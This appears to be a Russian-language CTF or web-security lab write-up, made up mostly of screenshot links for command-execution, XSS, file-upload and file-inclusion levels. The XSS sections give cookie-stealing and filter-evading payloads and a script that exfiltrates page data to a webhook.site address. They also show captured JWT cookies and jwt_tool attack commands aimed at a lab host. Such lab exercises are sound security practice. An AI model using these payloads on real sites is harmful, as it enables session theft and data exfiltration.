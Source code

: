 Задание CE: уровень 0




![image](https://github.com/user-attachments/assets/35395473-951f-4e6b-8135-bcd7bf1e8fc9)


![image](https://github.com/user-attachments/assets/360ca223-440b-4db3-9c9d-91dff4b2b3dd)


![image](https://github.com/user-attachments/assets/0c1967fc-082c-43e3-88b6-27034452d221)




Задание XSS: уровень 0


![image](https://github.com/user-attachments/assets/b36c8816-b801-4863-82db-aa8e5940411e)

![image](https://github.com/user-attachments/assets/8197605c-2165-4646-a0d8-27c1865e0d14)









Задание FU: уровень 0



![image](https://github.com/user-attachments/assets/9c4f8d0f-572a-4397-8467-d04bdf917dd3

![image](https://github.com/user-attachments/assets/87f3e36c-5994-4ce0-81c3-b427f223a4ae)


![image](https://github.com/user-attachments/assets/874509f7-f323-4f30-86e3-c6f90584ec54)

![image](https://github.com/user-attachments/assets/c653cfc3-2808-4542-9d8b-72afbdaf41c0)










Command Execution: уровень 1

![image](https://github.com/user-attachments/assets/b7ebee0b-3b24-41de-aa81-83540012771a)

![image](https://github.com/user-attachments/assets/cfa68234-318c-41f3-8fb6-f60d2c0faaa2)

![image](https://github.com/user-attachments/assets/4f956069-8a47-4900-8962-71ba8103f02d)



Command Execution: уровень 2


![image](https://github.com/user-attachments/assets/4f2182ee-3b58-4be8-8407-d5c353a10680)


![image](https://github.com/user-attachments/assets/ea996ee5-fe19-47d3-82ae-be4f20bbfb8d)




![image](https://github.com/user-attachments/assets/75ee9eb2-423a-4a37-ab62-975791109093)

![image](https://github.com/user-attachments/assets/7efa1922-9ed9-419b-a7de-fce6a679acb8)




Command Execution: уровень 3

![image](https://github.com/user-attachments/assets/6e7ff00c-b425-47ec-b141-198de6fc58cb)

![image](https://github.com/user-attachments/assets/7cab80e3-b248-480f-8526-bac6d03bc214)

![image](https://github.com/user-attachments/assets/17ea7e22-1900-42e2-a690-1c6942bbdc38)



Command Execution: уровень 4


![image](https://github.com/user-attachments/assets/a797218f-b1dd-4fc3-9d02-2c743f720e34)

![image](https://github.com/user-attachments/assets/493e9da4-b2b0-49f7-a5dd-a0cc15250ba7)





 XSS: уровень 1

 ![image](https://github.com/user-attachments/assets/a200b3e2-622a-4419-8f5b-cb6420feaa74)

 <script>alert(document.cookie)</script>
![image](https://github.com/user-attachments/assets/62e43c79-285c-48cc-941f-9b8698606d7d)



 XSS: уровень 2

 
<body onload=alert(document.cookie)>

 ![image](https://github.com/user-attachments/assets/14402f74-d56c-4beb-a4fe-097906b96645)
 

![image](https://github.com/user-attachments/assets/8d07cb68-9225-41d2-88f3-4d6e0c68bc02)



  XSS: уровень 3



 ![image](https://github.com/user-attachments/assets/b4bddabe-5e73-41a6-920c-91eb1c49f105)

{"alg":"HS256","typ":"JWT"}



'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>

<img/id="confirm&lpar;1)"/alt="/"src="/"onerror=eval(id)>'">

<SvG/oNloAd=alert(/w4piesy3nm/)>

some_important_info

<SvG/oNloAd=alert(some_important_info.txt)>

![image](https://github.com/user-attachments/assets/3092edf7-eacf-44ef-9b63-c685cb6f04ae)


![image](https://github.com/user-attachments/assets/1db9e6f9-d01e-483d-92a3-c297622c1ce9)



token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU; secret=MzB7WDU1X0MwMGsxM19Nb05TdDNyX30K; important_person_cookies=MzB7eHM1XzFkS193SDBfbjMzRF9pdH0K; token_dare=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU



<script>fetch('/some_important_info').then(r=>r.text()).then(d=>fetch('https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f?flag='+d))</script>


<SvG/oNloAdfetch('/some_important_info').then(r=>r.text()).then(d=>fetch('[https://your-server.com](https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f)?flag='+d))>

<script src="file:/var/www/html/csp-pentesting/malicious.js"></script>

	https://webhook.site/a5426673-ba98-48da-a6f5-e5dfe3d47c3f

python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test"

python3 jwt_tool.py -t http://51.250.91.149/XSS/XSS_level3.php -rc "jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTE5MDksInVzZXIiOiJkYXJlIiwiZ3JvdXAiOiJpbXBvcnRhbnQifQ.75cUIE6jIrCI6azJKX-fuY7LHRzxRlw15wLgyT00qnU;anothercookie=test" -M pb-np


![image](https://github.com/user-attachments/assets/6def24d6-e4ef-431c-9ea4-770bf8c84be5)

![image](https://github.com/user-attachments/assets/8899d99c-af68-4706-9606-d505730989e4)

![image](https://github.com/user-attachments/assets/a9f8020a-6fd6-4069-89a4-71a248193b3c)



  XSS: уровень 4
  
![image](https://github.com/user-attachments/assets/b975d289-b902-4242-a5c9-838c07e6d4a2)


![image](https://github.com/user-attachments/assets/813d410c-f4ba-4b5b-86bb-eb846e0188a7)


![image](https://github.com/user-attachments/assets/5ed73545-dc70-487e-8294-ae52728ba45e)






File Inclusion: уровень 3

![image](https://github.com/user-attachments/assets/93c358d5-c2eb-4e04-9464-872663714c45)

